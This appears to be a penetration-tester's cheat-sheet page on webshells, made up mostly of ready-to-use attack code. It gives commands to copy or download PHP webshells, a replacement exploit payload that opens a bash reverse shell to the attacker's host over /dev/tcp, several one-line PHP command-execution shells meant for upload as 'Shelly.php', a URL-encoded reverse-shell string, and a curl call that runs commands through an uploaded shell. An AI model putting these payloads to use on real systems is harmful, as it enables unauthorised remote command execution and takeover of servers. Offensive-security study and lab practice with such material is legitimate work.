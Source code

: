 Uploading files? Try [[16._File upload]]
### asp, aspx, cfm, jsp, laudanum, perl, php
```
ls /usr/share/webshells
```
`asp aspx cfm jsp laudanum perl php`
```bash - kali
cp /usr/share/webshells/
```
### PHP
#### wwolf
```bash - kali
wget https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php
```
![[Python#Server]]
#### php reverse shell payload
If you see php payload in exploit, replace with the following for reverse shell:
![[1._rlwrap]]
ORIGINAL:
```
payload = '<?php if($_POST["password"]=="' + password + '"){eval($_POST["cmd"]);}else{echo "<title>404 Not Found</title><h1>Not Found</h1>";}?>'
```
REPLACE WITH:
```php
payload = '<?php passthru("bash -i >& /dev/tcp/$KALI/80 0>&1"); ?>'
```
#### Pentestmonkey
```bash - kali
cp /usr/share/webshells/php/php-reverse-shell.php ./Shelly.php
```
https://github.com/pascal-gujer/webshellz
#### File upload webshells
Try saving this as 'Shelly.php' file, upload and access.
```php
<?php system($_GET['cmd']);?>
```
```php
<?php echo($_GET['cmd']);?>
```
```php
<?php echo shell_exec($_GET['cmd']);?>
```
![[1._rlwrap]]
```bash - target
bash+-c+'bash+-i+>%26+/dev/tcp/$KALI/443+0>%261'
```
```php
<?php exec("bash -c 'bash -i >& /dev/tcp/$TARGET/80 0>&1'");?>
```
```php
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```
![[1._rlwrap]]
Upload and access Shelly.php.
```bash - kali
curl http://$TARGET/uploads/Shelly.php?cmd=id
```
